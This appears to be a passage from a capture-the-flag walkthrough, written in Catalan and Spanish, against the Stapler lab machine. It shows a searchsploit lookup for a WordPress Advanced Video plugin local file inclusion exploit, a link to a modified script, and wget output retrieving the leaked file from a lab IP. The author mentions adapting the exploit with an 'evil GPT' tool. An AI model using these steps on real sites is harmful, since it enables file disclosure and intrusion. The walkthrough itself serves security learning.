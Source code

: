 ### Hem trobat 4 plugins. Podem utilitzar searchsploit per cercar exploits.
```bash
┌──(kali㉿kali)-[~]
└─$ searchsploit advanced video       
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                                       |  Path
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
WordPress Plugin Advanced Video 1.0 - Local File Inclusion                                                                                                                                           | php/webapps/39646.py
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

```

Aquest exploit és un script Python i haurem de fer algunes modificacions.
El primer que fem és copiar l'última versió de l’exploit des de la seva ubicació actual al nostre directori de Stapler.

Creeu un fitxer anomenat 39646.py amb el vostre editor de text preferit. Utilitzeu el navegador Kali i copieu el codi de dades del lloc següent i enganxeu-lo al fitxer recentment creat.
https://gist.github.com/kongwenbin/8e89f553641bd76b1ee4bb93460fbb2c
Modifiqueu l'script amb l'adreça IP del vostre lloc de WordPress.

Despues de modificar el script de python con el gpt el diablo he logrado crear la imagen que esta en la ruta:
```bash
https://192.168.1.203:12380/blogblog/wp-content/uploads/

┌──(kali㉿kali)-[~/stapler]
└─$ python 39646.py
 ```
 ### Ahora procedo a hacer un get para descargarme la imagen :                                                       
 ```bash
┌──(kali㉿kali)-[~/stapler]
└─$ wget --no-check-certificate https://192.168.1.203:12380/blogblog/wp-content/uploads/1631907254.jpeg

--2024-03-01 14:13:23--  https://192.168.1.203:12380/blogblog/wp-content/uploads/1631907254.jpeg
Connecting to 192.168.1.203:12380... connected.
WARNING: The certificate of ‘192.168.1.203’ is not trusted.
WARNING: The certificate of ‘192.168.1.203’ doesn't have a known issuer.
The certificate's owner does not match hostname ‘192.168.1.203’
HTTP request sent, awaiting response... 200 OK
Length: 3042 (3.0K) [image/jpeg]
Saving to: ‘1631907254.jpeg’

1631907254.jpeg                                           100%[====================================================================================================================================>]   2.97K  --.-KB/s    in 0.001s  

2024-03-01 14:13:23 (4.27 MB/s) - ‘1631907254.jpeg’ saved [3042/3042]
```

